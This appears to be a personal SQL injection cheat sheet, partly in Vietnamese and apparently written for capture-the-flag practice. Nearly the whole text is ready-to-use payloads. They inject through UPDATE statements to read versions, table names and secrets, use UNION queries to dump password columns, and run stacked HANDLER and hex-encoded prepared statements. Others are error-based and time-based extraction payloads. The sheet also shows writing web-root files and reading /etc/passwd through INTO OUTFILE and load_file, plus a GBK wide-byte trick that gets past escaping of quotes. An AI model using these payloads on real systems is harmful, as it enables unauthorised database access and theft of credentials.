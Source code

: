 ```UPDATE <table_name> SET nickName='name', email='email' WHERE <condition>```

UPDATE usertable SET nickName='capybara',email='test@test.com',password='ce5ca673d13b36118d54a7cf13aeb0ca012383bf771e713421b4d1fd841f539a' WHERE UID='1'

UPDATE usertable SET nickName='',nickName='database()', email='test@test.com',password='ce5ca673d13b36118d54a7cf13aeb0ca012383bf771e713421b4d1fd841f539a' WHERE UID='1'

```
# MySQL and MSSQL
',nickName=@@version,email='
# For Oracle
',nickName=(SELECT banner FROM v$version),email='
# For SQLite
',nickName=sqlite_version(),email='
```
SQLite

```',nickName=(SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'),email='```

```',nickName=(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='secrets'),email='```

```',nickName=(SELECT group_concat(id || "," || author || "," || secret || ":") from secrets),email='```

```' UNION SELECT 1,group_concat(password) FROM users-- -```


# Use Handler de thuc thi cau lenh

HANDLER demo OPEN; HANDLER demo READ FIRST, HANDLER demo READ NEXT, HANDLER demo CLOSE:

# Use preparestatement to execute query 

"select flag from \`1919810931114514\`" => 73656c65637420666c61672066726f6d20603139313938313039333131313435313460

```1'; prepare abc from 73656c65637420666c61672066726f6d20603139313938313039333131313435313460; execute abc```


Sử dụng extractvalue: -1' and extractvalue(1,concat(0x7e,(select group_concat(schema_name) from information_schema.schemata)))-- -

Time base: '1)) union select 1,2,elt((select substr('abc',1,1) from information_schema.schemata limit 0,1)='a',sleep(5))-- -

Sử dụng updateXML: 1',updatexml(1,concat(0x7e,(select database()),0x7e),1))-- -

Postgre: select * from rd_table where id='abc' order by id ASC,cast((select concat(p455w0rd_c0l) from m3mbr35t4bl3 limit 1 offset 0) as integer)-- -

select name from demo where name = 'dasd' union values(char(97)||char(100)||char(109)||char(105)||char(110))

1/**/union/**/values(char(97)||char(100)||char(109)||char(105)||char(110))

# Load file 
?id=1')) UNION SELECT(select database()),2,3 into outfile "/var/www/html/<web-root>/1.txt";-- -

?id=1')) union select load_file("/etc/passwd"),2,3 into outfile "/var/www/html/<web-root>/2.txt";-- -

# Bypass add slash into single quote us

Nguyên tắc: Khi mySQL sử dụng mã hóa GBK, nó sẽ coi hai ký tự là một ký tự Trung Quốc, ví dụ: %aa%5c là một ký tự Trung Quốc (mã ascii trước đó lớn hơn 128 để đạt được phạm vi ký tự Trung Quốc). Khi chúng ta lọc ', chúng ta thường sử dụng ý tưởng chuyển đổi ' thành \' (hàm hoặc ý tưởng chuyển đổi sẽ được giới thiệu tại thời điểm của mỗi cấp độ).

Do đó, chúng ta đang cố gắng tìm cách loại bỏ \ được thêm vào trước đó, và nói chung có hai cách suy nghĩ:

%df ăn \ Lý do cụ thể là urlencode(\') = %5c%27, chúng ta thêm %df trước %5c%27 để tạo thành %df%5c%27 và mysql được đề cập ở trên sẽ coi hai byte là ký tự Trung Quốc khi mã hóa bằng GBK, trong đó %df%5c là ký tự Trung Quốc và %27 được sử dụng như một ký hiệu riêng biệt bên ngoài, điều này cũng đạt được mục đích của chúng ta.
Lọc ra \ trong \', ví dụ: bạn có thể xây dựng %**%5c%5c%27 và %5c sau sẽ được chú thích bởi %5c trước đó. Đây cũng là một cách để bỏ qua.




